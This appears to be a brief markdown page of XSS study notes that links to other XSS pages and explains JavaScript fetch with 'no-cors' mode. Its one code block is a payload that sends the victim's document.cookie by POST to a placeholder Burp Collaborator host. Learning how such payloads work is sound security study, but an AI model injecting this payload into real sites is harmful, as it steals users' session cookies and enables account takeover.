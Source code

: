 [XSS](XSS.md)

[Example](Example.md)

**mode: <no-cors>** only basic methods such as get post 

**fetch(’url’)** send data to this url

```javascript
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
```
